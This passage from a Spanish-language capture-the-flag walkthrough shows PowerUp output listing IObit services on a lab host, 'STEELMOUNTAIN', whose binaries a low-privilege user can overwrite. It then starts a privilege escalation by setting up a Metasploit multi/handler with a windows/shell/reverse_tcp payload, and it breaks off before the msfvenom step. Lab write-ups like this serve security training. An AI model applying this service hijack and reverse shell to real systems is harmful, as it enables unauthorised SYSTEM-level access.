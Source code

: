 ServiceName                     : AdvancedSystemCareService9
Path                            : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\Advanced SystemCare\ASCService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'AdvancedSystemCareService9'
CanRestart                      : True
Name                            : AdvancedSystemCareService9
Check                           : Modifiable Service Files

ServiceName                     : IObitUnSvr
Path                            : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\IObit Uninstaller\IUService.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'IObitUnSvr'
CanRestart                      : False
Name                            : IObitUnSvr
Check                           : Modifiable Service Files

ServiceName                     : LiveUpdateSvc
Path                            : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiableFile                  : C:\Program Files (x86)\IObit\LiveUpdate\LiveUpdate.exe
ModifiableFilePermissions       : {WriteAttributes, Synchronize, ReadControl, ReadData/ListDirectory...}
ModifiableFileIdentityReference : STEELMOUNTAIN\bill
StartName                       : LocalSystem
AbuseFunction                   : Install-ServiceBinary -Name 'LiveUpdateSvc'
CanRestart                      : False
Name                            : LiveUpdateSvc
Check                           : Modifiable Service Files

---------

Se nos dice que chequemos el servicio con CanRestart option en true, el cual es: 
AdvancedSystemCareService9

### Escalamiento real de privilegios
Se pone como background la sesión actual
- background
Se usa el exploit multihandler
- use exploit/multi/handler
Se usa el reverse tcp de windows como payload
- set payload windows/shell/reverse_tcp
  
![image](https://user-images.githubusercontent.com/44788583/149712905-7a9c7cb5-0456-4341-83ba-502f7f4618b0.png)

Ahora en otra terminal se usará msfvenom:
